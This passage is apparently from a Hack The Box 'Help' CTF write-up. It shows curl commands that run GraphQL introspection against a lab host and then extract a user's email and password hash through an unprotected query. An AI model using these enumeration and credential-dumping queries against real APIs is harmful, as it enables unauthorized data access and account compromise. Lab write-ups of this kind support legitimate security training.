 
graphql                 [Status: 400, Size: 18, Words: 3, Lines: 1, Duration: 40ms]
:: Progress: [269/269] :: Job [1/1] :: 104 req/sec :: Duration: [0:00:02] :: Errors: 0 ::


enumerando grafhql


```shell
──(villa㉿kali)-[~/ctf/HTB/help/scripts]
└─$ curl -X POST http://10.10.10.121:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name } } }"}'1
{"data":{"__schema":{"types":[{"name":"Query"},{"name":"User"},{"name":"String"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"Boolean"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}    




─(villa㉿kali)-[~/ctf/HTB/help/scripts]
└─$ curl -X POST http://10.10.10.121:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __type(name:\"User\") { name fields { name } } }"}'

{"data":{"__type":{"name":"User","fields":[{"name":"username"},{"name":"password"}]}}}
```



After identifying the `User` data type, introspection revealed accessible queries. A query to retrieve all user credentials was exposed due to lack of access control, resulting in a full data breach.




```shell
─$ curl -s -X POST http://10.10.10.121:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { queryType { fields { name } } } }"}' | jq .

{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "user"
          }
        ]
      }
    }
  }
}





┌──(villa㉿kali)-[~/ctf/HTB/help/scripts]
└─$ curl -X POST http://10.10.10.121:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ user { username password } }"}'

{"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}   





```